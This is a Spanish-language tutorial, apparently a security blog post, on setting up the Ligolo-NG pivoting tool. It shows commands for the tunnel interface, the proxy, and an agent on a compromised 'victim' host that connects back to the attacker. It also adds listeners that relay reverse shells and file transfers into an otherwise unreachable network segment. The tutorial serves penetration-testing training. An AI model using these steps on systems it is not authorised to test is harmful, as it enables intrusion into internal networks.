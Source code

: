 ```yaml
---
title: "Tutorial de Ligolo-NG"
date: Tue May 21 2024 02:00:00 GMT+0200 (Central European Summer Time)
categories: [Tutoriales, Ligolo-NG]
tags: [ligolo, ligolo-ng, proxy, pivoting]
image: /assets/img/cabeceras/ligolo-cab.png
---
```


### CONFIGURACIÓN Y PUESTA EN MARCHA DE LIGOLO-NG

##### ¿QUÉ ES LIGOLO-NG?

Ligolo-ng es una herramienta de pivoting alternativa a `chisel` y `socat`, ligera y rápida que permite establecer túneles inversos seguros sin necesidad de utilizar SOCKS. A diferencia de otras herramientas, Ligolo-ng crea un túnel virtual al estilo de una VPN, lo que facilita el pivotaje y el uso de herramientas como `nmap` o `netcat` sin tener que pasar por un proxy SOCKS. Gracias a esta característica, Ligolo-ng ofrece conexiones más rápidas y estables, mejorando significativamente el rendimiento en comparación con el uso de SOCKS.

##### DESCARGA

Nos descargaremos tanto el proxy como el cliente desde el repositorio oficial de GitHub [aquí](https://github.com/nicocha30/ligolo-ng). Renombraremos los binarios (opcional) para una mejor manipulación.

##### MÁQUINA ATACANTE O PROXY (NUESTRA MÁQUINA):

Primero crearemos la interface "ligolo" y la inicializaremos:

```bash
$ sudo ip tuntap add user andy mode tun ligolo
$ sudo ip link set ligolo up
$ sudo ip route add 172.16.249.0/24 dev ligolo
```

Ejecutaremos el proxy por el puerto que queramos estar escuchando:

```bash
$ ./ligolo-proxy -selfcert 

O si queremos levantar la red directamente:
$ ./ligolo-proxy -selfcert -laddr 0.0.0.0:4433
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023195808.png)

----

##### MÁQUINA VÍCTIMA DE SALTO:

En la máquina víctima que nos hará de salto entre ambos segmentos de red ejecutaremos lo siguiente:

```bash
> .\ligolo-agent.exe -connect 192.168.45.237:11601 -ignore-cert -retry
...
time="2023-10-23T10:34:58-07:00" level=info msg="Connection established" addr="192.168.45.237:4433"
```

Y ya está. Este último paso lo tendremos que hacer por cada máquina que tenga un segmento de red al que no podemos acceder. No hace falta ser un usuario con altos privilegios para ejecutar el agente, ya sea una máquina Linux o Windows.

----

##### MÁQUINA PROXY:

Ahora si nos fijamos en nuestra máquina, veremos que tenemos una conexión entrante:

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231023200157.png)

Pulsamos intro y activamos la sesión 1, que es la única que hay. Si hubiese más tendríamos que activarla antes de usar el túnel creado.

```bash
ligolo-ng >> session
ligolo-ng >> 1
ligolo-ng >> start
```

Probamos si tenemos conexión a la red a la que queremos llegar:

```bash
$ ping 172.16.249.11

PING 172.16.249.11 (172.16.249.11) 56(84) bytes of data.
64 bytes from 172.16.249.11: icmp_seq=1 ttl=64 time=47.5 ms
64 bytes from 172.16.249.11: icmp_seq=2 ttl=64 time=43.2 ms
64 bytes from 172.16.249.11: icmp_seq=3 ttl=64 time=42.9 ms
```

Fantástico!!! Ya tenemos conexión con el segmento de red desde nuestra máquina!

----
- <font color="#c0504d">LLEGADOS A ESTE PUNTO EL PROBLEMA QUE SE NOS PRESENTA ES QUE LAS MÁQUINAS A LAS QUE YA PODEMOS ACCEDER NO TIENEN CONEXIÓN DIRECTA HACIA NOSOTROS, POR LO QUE UNA REVERSE SHELL O TRANSFERENCIA DE ARCHIVOS NO FUNCIONARÍA. PARA SOLUCIONARLO HAREMOS UN</font> _PORT FORWARDING_ <font color="#c0504d"> HACIA NUESTRA MÁQUINA ATACANTE.</font>

----

#### PORT FORWARDING HACIA NUESTRA MÁQUINA (LISTENER LIGOLO-NG)

##### MÁQUINA PROXY

Vamos a nuestra consola proxy de _Ligolo_ y escribimos el listener que queremos levantar:

```bash
[Agent : WEB02\Administrator@WEB02] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Esto significa que todo el tráfico que reciba la máquina de salto por el puerto 8080 lo recibirá nuestra máquina atacante por el puerto 80. De esta manera si queremos tener una reverse shell de cualquier máquina o transferir archivos, el exploit o la RS deberá apuntar a la IP y al puerto 8080 de la máquina de salto y nosotros deberemos escuchar en el puerto 80 con NC, Webserver de Python o cualquier servicio que hayamos levantado en nuestra máquina y queramos llegar desde la máquina víctima que está en otro segmento de red.

-----

#### LISTADO DE LISTENERS

Para ver un listado de todos los LISTENERS que tenemos activos lo podremos hacer con este sencillo comando desde nuestra consola de proxy de _Ligolo_.

```bash
[Agent : WEB02\Administrator@WEB02] » listener_list
```

![image](/assets/img/2024-05-21-LIGOLO-NG---Tutorial/Pasted-image-20231024162410.png)

-----

#### LIMPIEZA Y BORRADO DE INTERFACES

##### MÁQUINA PROXY:

Para borrar las interfaces y rutas creadas tenemos dos opciones, reiniciar nuestra máquina ya que no son configuraciones permanentes o, si no podemos o no queremos, ejecutaremos los siguientes comando en nuestra máquina:

```bash
$ sudo ip route del 172.16.249.0/24 dev ligolo
...
$ sudo ip link del ligolo
```


-----

Repositorio oficial de GitHub [aquí](https://github.com/nicocha30/ligolo-ng)
